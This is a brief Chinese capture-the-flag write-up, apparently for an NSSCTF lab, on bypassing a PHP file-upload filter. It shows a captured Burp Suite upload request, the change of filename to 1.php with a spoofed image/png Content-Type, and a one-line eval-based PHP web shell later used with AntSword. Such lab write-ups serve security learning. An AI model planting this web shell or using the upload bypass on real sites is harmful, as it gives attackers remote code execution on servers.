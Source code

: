 ## php不能上傳 -> 上傳`.png` -> burpsuite抓包
```https
POST /upload.php HTTP/1.1
Host: node2.anna.nssctf.cn:xxxxx
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------4111637901xxxxxxx473098927
Content-Length: 341
Origin: http://node2.anna.nssctf.cn:xxxxx
Connection: close
Referer: http://node2.anna.nssctf.cn:xxxxx/
Cookie: PHPSESSID=7kalv8m6u81r7bb7kjxxxxxxxxxxx6
Upgrade-Insecure-Requests: 1

-----------------------------411163790122231939592473098927
Content-Disposition: form-data; name="uploaded"; filename="1.png"
Content-Type: image/png

1

-----------------------------411163790122231939592473098927
Content-Disposition: form-data; name="submit"

GoGoGo!
-----------------------------411163790122231939592473098927--

```
## 重點在第二段 -> 要改`filename=1.php`和下面改成木馬

`<?php@eval($_REQUEST["ant"]);?>` 

## *Content-Type: 改比較常見的*
```https
Content-Disposition: form-data; name="uploaded"; filename="1.php"
Content-Type: image/png

<?php
 @eval($_REQUEST["ant"]);
 ?>

```

## 用antsword來連接找到`flag.php` -> 但是假的 -> 去`phpinfo`找

|知識點||
|----|-----|
|MIME绕过|MIME(Multipurpose Internet Mail Extensions)多用途互联网邮件扩展类型。是设定某种扩展名的文件用一种应用程序来打开的方式类型，当该扩展名文件被访问的时候，浏览器会自动使用指定应用程序来打开。|

#又是半天才做出來，卡在抓包改后缀很久
